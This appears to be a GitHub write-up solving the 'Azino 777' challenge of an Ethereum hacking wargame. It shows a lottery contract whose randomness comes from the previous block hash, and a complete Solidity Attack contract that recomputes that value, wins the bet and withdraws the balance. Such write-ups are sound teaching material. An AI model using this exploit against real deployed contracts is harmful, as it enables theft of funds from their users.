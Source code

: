 # ether-hack

### My Ether Hack Solutions

# Challenge 1 : Azino 777

```Solidity
pragma solidity ^0.4.16;

contract Azino777 {

  function spin(uint256 bet) public payable {
    require(msg.value >= 0.01 ether);
    uint256 num = rand(100);
    if(num == bet) {
        msg.sender.transfer(this.balance);
    }
  }

  //Generate random number between 0 & max
  uint256 constant private FACTOR =  1157920892373161954235709850086879078532699846656405640394575840079131296399;
  function rand(uint max) constant private returns (uint256 result){
    uint256 factor = FACTOR * 100 / max;
    uint256 lastBlockNumber = block.number - 1;
    uint256 hashVal = uint256(block.blockhash(lastBlockNumber));

    return uint256((uint256(hashVal) / factor)) % max;
  }

  function() public payable {}
}
```

Solution : Challenge 1
---
We will win this lottery if generated random number and bet both are the same then we will win this, for this make contract and calculate first your `rand` function and get the return value and make the spin call with `0.01 ether` and `100` as max, Here's Your Full Code.

```solidity
contract Attack {
    Azino777 azino = Azino777("Azino777_ADDRESS");
    uint256 constant private FACTOR =  1157920892373161954235709850086879078532699846656405640394575840079131296399;

  function solve(uint256 max) public payable {
    uint256 factor = FACTOR * 100 / max;
    uint256 lastBlockNumber = block.number - 1;
    uint256 hashVal = uint256(block.blockhash(lastBlockNumber));
    uint256 bet =  uint256((uint256(hashVal) / factor)) % max;
    azino.spin.value(msg.value)(bet);
  }

  function withdraw() public {
       msg.sender.transfer(address(this).balance);
  }

   function() public payable {}

}
```
